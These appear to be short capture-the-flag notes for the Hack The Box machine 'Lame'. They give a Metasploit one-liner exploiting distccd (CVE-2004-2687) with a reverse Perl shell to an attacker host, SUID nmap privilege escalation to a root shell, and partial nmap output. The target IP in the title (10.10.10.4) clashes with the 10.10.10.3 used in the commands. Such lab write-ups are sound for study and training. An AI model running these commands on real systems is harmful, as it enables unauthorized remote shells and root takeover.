 # Lame : 10.10.10.4


Hack the box

## In brief
- 3632/tcp open  distccd 
  - Dist CC  4.2.4 :  CVE 2004-2687 
  - msf exploit/unix/misc/distcc_exec 
  - rewrite exploit_distcc.rb 
- Prov Escalation with sbit on nmap --interactive and  !sh
  
$ msfconsole
msf5 > search distccd

$ msfconsole -x "use exploit/unix/misc/distcc_exec; set payload cmd/unix/reverse_perl;set RHOST 10.10.10.3;set LHOST 10.10.14.4;exploit"



# Rewrite Exploit 
ruby exploit_distcc.rb 


$ find / -user root -perm -4000 -print 2>/dev/null
$ /usr/bin/nmap --interactive
  nmap> !sh



## [nmap -A 10.10.10.3]
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-15 08:47 CET
Nmap scan report for 10.10.10.3
Host is up (0.075s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
